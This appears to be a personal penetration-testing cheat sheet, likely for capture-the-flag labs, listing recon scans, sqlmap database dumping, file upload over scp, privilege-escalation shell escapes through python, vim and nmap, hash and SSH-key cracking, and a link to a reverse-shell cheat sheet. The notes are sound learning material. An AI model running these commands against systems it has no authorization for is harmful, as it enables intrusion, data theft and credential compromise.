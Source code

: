 ## Reconaissance

##### nmap scanning

```bash
nmap -Pn -p- -T4 {ip}
nmap -A -p<ports> -T4 {ip}
```

##### directory enumeration
```bash
gobuster dir -u {ip} -w {path_wordlist} -t {no. threads} -x {strings, pdf, php, txt, etc.}
dirbuster #opens dirbuster window
```

##### checking for sql injections
```bash
sqlmap -u {weburl, http://10.10.60.252/administrator.php>} --forms --dump --dbms=mysql
sqlmap --tables -T users --dump
```

##### enum4linux (if may samba port open)
```bash
enum4linux -a <MACHINE IP>
```

## Foothold

##### connecting ssh
```bash
ssh {user}@{ip} -p {port} 
```

##### putting files in the target system
```bash
scp {path to linenum} {user}@{host}:{path} #Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```



## Privelege Escalation

##### sudo-able commands
```bash
sudo -l
```
##### root processes
```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
```

###### getting a terminal (if python is working)
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

###### pivoting to other users (if you have password)
```bash
su {user name}
```

###### running bash in vim (if vim is runnable)
```
:shell 
```

##### running bash in nmap (if nmap is runnable)
```
nmap --interactive
!sh
```

## Misc

##### use gdb in checking binary files
##### pwn commandd to check excessive input
##### pwn command to check how many excessive input is actually needed to overwrite certain address

##### in cracking hashes
```bash
hashcat -m {hash algo mode} {hash file path} {wordlist path}
```
https://hashcat.net/wiki/doku.php?id=example_hashes

##### in cracking ssh passkeys (given public and private keys)
```bash
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash -wordlist=rockyou.txt
```
https://www.abhizer.com/crack-ssh-with-john/

## Reminders

##### Root Reverse Shell Cheat sheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
